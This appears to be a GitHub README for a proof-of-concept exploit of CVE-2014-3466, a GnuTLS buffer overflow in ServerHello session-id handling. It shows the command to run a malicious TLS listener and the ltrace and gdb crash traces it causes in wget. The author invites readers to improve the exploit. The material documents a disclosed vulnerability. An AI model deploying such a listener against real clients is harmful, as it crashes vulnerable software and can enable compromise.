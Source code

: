 ## Proof of Concept for CVE-2014-3466 (GnuTLS buffer overflow: session id length check)
### Information
See: https://bugzilla.redhat.com/show_bug.cgi?id=1101932

**This is not a weaponized exploit.**

be warned: this python code is ugly, I pretty much handcrafted the ServerHello and spent only about ~~five~~ fifteen minutes on the python part itself. 

feel free to improve this exploit as you wish (keep me in the loop if possible!).

### Example
start the listener with the malicious `ServerHello` code:
```bash
$ python poc.py 4433
```


connect with a client linked to a vulnerable version of GnuTLS (e.g. `wget` on Debian):
```bash
$ ldd $(which wget) 
...
	libnettle.so.4 => /usr/lib/x86_64-linux-gnu/libnettle.so.4 (0x00007fa8a026e000)
	libgnutls.so.28 => /usr/lib/x86_64-linux-gnu/libgnutls.so.28 (0x00007fa89ff5c000)
...

$ ltrace -riS -e gnutls_handshake wget -d https://localhost:4433
...
  0.000096 [0x4308a0] wget->gnutls_handshake(0xdf5380, 4, 0xa4dd30, 0x7f30f2731620 <unfinished ...>
  0.000216 [0x7f30f246b807] SYS_writev(4, 0x7fffc0b9c970, 1)    = 272
  0.000067 [0x7f30f2473a4d] SYS_recvfrom(4, 0xdf7920, 5, 0)     = 5
  0.500357 [0x7f30f2473a4d] SYS_recvfrom(4, 0xdfbad0, 250, 0)   = 250
  0.000095 [0x7f30f2e408f0] --- SIGSEGV (Segmentation fault) ---
  0.004670 [0xffffffffffffffff] +++ killed by SIGSEGV +++

$ sudo apt-get install libgnutls28-dbg
$ gdb --args wget https://localhost:4433
...
(gdb) r
...
(gdb) bt full
...
#0  0x00007ffff79548f0 in _gnutls_supported_ciphersuites (session=session@entry=0xa5e380, 
    cipher_suites=cipher_suites@entry=0x7fffffffd340 <incomplete sequence \366\245>, 
    max_cipher_suite_size=max_cipher_suite_size@entry=512) at ciphersuites.c:1311
#1  0x00007ffff78c759a in _gnutls_client_set_ciphersuite (session=session@entry=0xa5e380, 
    suite=suite@entry=0xa64b5b '\377' <repeats 111 times>) at gnutls_handshake.c:1525
#2  0x00007ffff78cae15 in _gnutls_read_server_hello (datalen=<optimized out>, 
    data=0xa64a70 "\003\001S\213\177c\301\016\035r\n\263\370\247\017\365]ieXB\200\301\373Oۚ\252\004\243\323Kq\307\310", '\377' <repeats 165 times>..., session=0xa5e380) at gnutls_handshake.c:1778
#3  _gnutls_recv_hello (session=session@entry=0xa5e380, 
    data=0xa64a70 "\003\001S\213\177c\301\016\035r\n\263\370\247\017\365]ieXB\200\301\373Oۚ\252\004\243\323Kq\307\310", '\377' <repeats 165 times>..., datalen=<optimized out>) at gnutls_handshake.c:2222
#4  0x00007ffff78cb64f in _gnutls_recv_handshake (session=session@entry=0xa5e380, 
    type=type@entry=GNUTLS_HANDSHAKE_SERVER_HELLO, optional=optional@entry=0, buf=buf@entry=0x0)
    at gnutls_handshake.c:1442
...
```

No time to test this further at the moment, enjoy.

## License
CC0 1.0 (https://creativecommons.org/publicdomain/zero/1.0)
